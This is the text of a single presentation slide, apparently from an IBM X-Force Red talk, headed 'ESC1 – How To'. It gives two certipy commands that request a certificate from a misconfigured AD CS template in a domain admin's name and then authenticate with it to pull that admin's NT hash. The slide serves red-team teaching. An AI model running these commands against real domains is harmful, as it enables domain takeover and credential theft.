

# DA Privilege Escalation > Misconfigured Certificate Templates: ESC1 – How To
Request a certificate
certipy req domain.local/user:password@ca.domain.local' -ca caName -template vulnerableTemplate' -alt domainAdmin@domain.local' -out pwned
Auth as that user and get their NT hash
certipy auth -pfx pwned.pfx -username domainAdmin -domain domain.local -dc-ip $dcip

IBM Security X-Force Red / © 2022 IBM Corporation
46